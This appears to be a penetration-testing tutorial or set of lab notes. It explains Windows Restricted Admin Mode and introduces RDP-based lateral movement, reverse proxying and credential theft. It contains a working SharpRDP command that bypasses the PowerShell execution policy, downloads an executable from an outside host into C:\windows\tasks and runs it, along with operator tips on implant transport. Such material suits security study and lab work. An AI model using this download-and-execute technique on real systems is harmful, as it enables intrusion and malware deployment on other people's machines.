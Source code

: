 3. **Compatibility:**
   - Restricted Admin Mode is only supported on Windows systems that are Windows 8.1/Windows Server 2012 R2 or later. Older systems cannot initiate or receive Restricted Admin Mode RDP sessions.

### **Relation to RDP:**

Restricted Admin Mode is specifically designed for RDP connections. It addresses a critical security concern with traditional RDP sessions by reducing the attack surface related to credential theft. It is particularly useful in high-security environments where protecting administrative credentials is paramount. However, it should be used with a clear understanding of its limitations and in combination with other security measures.
### Tutorial: Lateral Movement with RDP, Reverse Proxying, and Credential Stealing

---

#### **Introduction to Lateral Movement with RDP**

Lateral movement in cybersecurity refers to the techniques attackers use to move through a network after gaining initial access. One of the most common methods is leveraging Remote Desktop Protocol (RDP), a protocol that allows users to connect to a computer over a network connection. Once inside, attackers can escalate privileges, access sensitive data, and spread to other systems.

This tutorial will cover:

1. **RDP as a Console**
2. **Reverse Proxying with Metasploit, Chisel, and Sliver**
3. **Stealing Clear Text Credentials over RDP**

---

### **1. RDP as a Console**

RDP allows users to interact with a system as if they were physically present. Attackers can leverage this to access resources and execute commands on the target machine. In most cases, RDP connections are made using the `mstsc` client on Windows or `rdesktop` and `xfreerdp` on Linux.

**RDP Usage:**
- **RDP via mstsc:**  
  Open the Run dialog (`Win + R`) and type `mstsc`, then enter the target IP address.
  
- **RDP with Console Session:**
  RDP sessions can be connected directly to the console (session 0) of the target machine by using the `/admin` or `/console` switch. This may give access to an already logged-in session:
  ```sh
  mstsc /admin /v:<target_ip>
  ```

- SharpRPD notes:
```powershell
 .\SharpRDP.exe computername=appsrv01 command="powershell -ep bypass iwr -uri http://192.168.45.175:8000/loosespiral.exe -outfile c:\windows\tasks\ls.exe; Start-Process c:\windows\tasks\ls.exe" username=corp1\dave password=lab
```
- **Note:** using an `_` in the powershell iwr download resulted in failure
- **Note:** needed a tls implant as a http/https implant wouldn't work
